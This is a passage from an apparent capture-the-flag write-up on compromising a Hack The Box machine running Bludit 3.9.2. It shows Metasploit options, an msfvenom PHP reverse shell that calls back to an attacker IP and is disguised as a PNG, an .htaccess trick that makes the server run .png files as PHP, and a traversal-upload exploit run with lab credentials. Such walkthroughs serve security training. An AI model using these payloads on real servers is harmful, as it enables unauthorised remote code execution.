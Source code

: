 	   Name   Current Setting  Required  Description
	   ----   ---------------  --------  -----------
	   LHOST  tun0             yes       The listen address (an interface may be specified)
	   LPORT  4444             yes       The listen port
	
	
	Exploit target:
	
	   Id  Name
	   --  ----
	   0   Bludit v3.9.2
	```
4. Exploit !
	![]({{ page.img_path }}Pasted%20image%2020230106221019.png)

## TCP/80 (HTTP) - Bludit 3.9.2 Directory Traversal + Image Upload Exec (Python Script)
1. How does `Bludit 3.9.2 - Directory Traversal` - `multiple/webapps/48701.txt` work?
	> Remote user could abuse the uuid parameter in the image upload feature in order to save a malicious payload anywhere onto the server, and then use a custom .htaccess file to bypass the file extension check to finally get remote code execution.
	{: .prompt-info }
2. Try `Bludit 3.9.2 - Directory Traversal` - `multiple/webapps/48701.txt`
	1. Create `evil.png` payload
		```
		┌──(root💀kali)-[~/htb/blunder/10.10.10.191/exploit/dirTraversal]
		└─# msfvenom -p php/reverse_php LHOST=10.10.14.3 LPORT=53 -f raw -b '"' > evil.png
		[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
		[-] No arch selected, selecting arch: php from the payload
		Found 2 compatible encoders
		Attempting to encode payload with 1 iterations of php/base64
		php/base64 succeeded with size 4062 (iteration=0)
		php/base64 chosen with final size 4062
		Payload size: 4062 bytes
		
		┌──(root💀kali)-[~/htb/blunder/10.10.10.191/exploit/dirTraversal]
		└─# echo -e "<?php $(cat evil.png)" > evil.png
		```
		> This is our reverse shell payload
		{: .prompt-info }
	2. Next, we create `.htaccess` payload
		```
		┌──(root💀kali)-[~/htb/blunder/10.10.10.191/exploit/dirTraversal]
		└─# echo "RewriteEngine off" > .htaccess
		echo "AddType application/x-httpd-php .png" >> .htaccess
		```
		> This will cause the webserver to treat `.png` files as php, allowing us to execute our reverse shell.
		{: .prompt-info }
	3. Change some options in the `.txt` file
		```
		url = 'http://blunder.htb'  # CHANGE ME
		username = 'fergus'  # CHANGE ME
		password = 'RolandDeschain'  # CHANGE ME
		```
	4. Change file from `.txt` to `.py` and execute it
		```
		┌──(root💀kali)-[~/htb/blunder/10.10.10.191/exploit/dirTraversal]
		└─# python3 directoryTraversal.py
		cookie: v9vstg851aiqpo58j4a9preao3
		csrf_token: d62162e1fc3f36fd0b39d184150900a84595fab6
		Uploading payload: evil.png
		Uploading payload: .htaccess
		```